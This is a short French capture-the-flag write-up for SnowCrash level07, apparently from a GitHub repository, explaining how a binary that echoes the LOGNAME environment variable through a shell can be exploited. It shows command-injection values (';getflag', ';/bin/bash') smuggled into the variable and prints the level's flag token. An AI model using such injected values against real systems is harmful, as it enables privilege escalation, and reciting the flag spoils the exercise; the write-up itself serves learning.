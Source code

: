 # Level07 - Variable d'environnement
Pour résoudre le level07, on a un fichier level07. Quand on l'exécute, on peut voir qu'il affiche le nom de l'utilisateur actuel. Si on utilise `strings` dessus, on peut voir qu'il y a un appel à `getenv` et qu'on echo la variable `LOGNAME`.


```
getenv
...
[^_]
LOGNAME
/bin/echo %s
```

On peut exploiter cet echo, en modifiant la variable d'environnement `LOGANME`. On va ainsi terminer l'appel à `echo` et demander à exécuter `getflag` ou ouvrir un terminal.

```
export LOGNAME=";getflag"
```
ou
```
export LOGNAME=";/bin/bash"
```
On peut ensuite récupérer notre flag:
```
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

On a notre token: `fiumuikeil55xe9cu4dood66h`

